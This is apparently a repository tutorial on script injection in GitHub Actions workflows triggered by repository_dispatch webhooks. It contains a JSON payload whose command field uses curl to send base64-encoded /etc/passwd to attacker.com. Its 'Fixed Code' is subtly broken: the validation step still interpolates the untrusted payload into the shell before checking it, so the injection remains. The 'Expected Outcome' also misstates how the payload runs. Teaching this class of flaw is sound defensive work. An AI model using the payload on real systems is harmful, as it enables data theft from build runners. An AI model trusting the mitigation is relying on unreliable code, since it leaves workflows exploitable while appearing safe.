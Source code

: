 # Advanced Attack Scenario 7: Exploiting insecure webhooks that trigger workflows

This scenario demonstrates how an attacker can exploit a workflow that is triggered by a webhook, but does not validate the webhook payload.

## The Vulnerability

A workflow that is triggered by a webhook, but does not validate the webhook payload. The vulnerability lies in the fact that the workflow can be triggered by a malicious payload that is sent to the webhook. This can allow an attacker to execute arbitrary commands on the runner.

**Vulnerable Code:**

```yaml
name: Vulnerable Workflow
on:
  repository_dispatch:
    types: [my-event]
jobs:
  vulnerable_job:
    runs-on: ubuntu-latest
    steps:
      - name: Vulnerable Step
        run: |
          echo "Running command: ${{ github.event.client_payload.command }}"
```

## The Exploitation

An attacker can send a malicious payload to the webhook to trigger the workflow and execute arbitrary commands.

**Malicious Payload:**

```json
{
  "event_type": "my-event",
  "client_payload": {
    "command": "; curl http://attacker.com/$(cat /etc/passwd | base64)"
  }
}
```

**Expected Outcome:**

The workflow will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## The Mitigation

To mitigate this vulnerability, you should properly validate the webhook payload before using it in your workflow. For example, you can use a regular expression to ensure that the `command` input only contains a valid command.

**Fixed Code:**

```yaml
name: Fixed Workflow
on:
  repository_dispatch:
    types: [my-event]
jobs:
  fixed_job:
    runs-on: ubuntu-latest
    steps:
      - name: Validate input
        run: |
          if ! [[ "${{ github.event.client_payload.command }}" =~ ^[a-zA-Z0-9_-]+$ ]]; then
            echo "Invalid command"
            exit 1
          fi
      - name: Fixed Step
        run: |
          echo "Running command: ${{ github.event.client_payload.command }}"
```
